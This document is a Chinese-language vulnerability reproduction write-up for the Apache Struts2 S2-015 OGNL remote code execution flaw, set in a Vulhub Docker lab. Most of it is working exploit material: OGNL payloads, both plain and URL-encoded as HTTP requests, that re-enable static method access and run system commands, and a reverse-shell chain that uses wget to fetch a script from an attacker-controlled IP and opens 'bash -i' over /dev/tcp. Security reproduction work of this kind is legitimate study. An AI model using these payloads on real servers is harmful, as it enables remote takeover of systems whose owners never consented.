


# Struts2 S2-015 远程代码执行漏洞

## 漏洞描述

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

漏洞详情: 

- http://struts.apache.org/docs/s2-015.html

## 漏洞影响

影响版本: 2.0.0 - 2.3.14.2

## 环境搭建

Vulhub执行以下命令启动s2-015测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.html`即可进入上传表单页面。

## 漏洞复现

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

进行URL编码后的Payload：

```
GET /S2-015/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action HTTP/1.1
```

直接回显：



除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

这里配置了 `<param name="errorMessage">${message}</param>`，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。

可以构造 Payload 如下：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

进行URL编码后的Payload（最开始的%24变为%25）：

```
GET /param.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d HTTP/1.
```

### 反弹shell

通过第二种方式获取反弹shell，注意要进行URL编码。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream()),#q}
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream()),#q}
```

成功接收反弹shell：



